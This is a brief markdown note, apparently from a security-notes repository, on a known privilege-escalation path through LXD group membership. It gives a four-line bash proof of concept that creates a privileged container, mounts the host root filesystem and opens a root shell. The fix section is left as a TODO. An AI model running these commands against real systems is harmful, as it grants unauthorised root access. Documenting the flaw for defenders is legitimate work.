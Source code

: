 # LXD Group

## Issue
Any user in the lxd group can elevate to root by creating a priviledged container and mounting the root file system inside the container.

Every user in the lxd group needs to be trusted. However this is a flawed security model, as even if the user is trustworth every single piece of code they run may not be and any application ran by that user has the ability to elevate itself to root without permission. 

## Example
POC modified from exploit-db script https://www.exploit-db.com/exploits/46978
```bash
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc chroot /mnt/root /bin/bash
```

## Fix
TODO: Add solutions

## Resources
https://www.exploit-db.com/exploits/46978
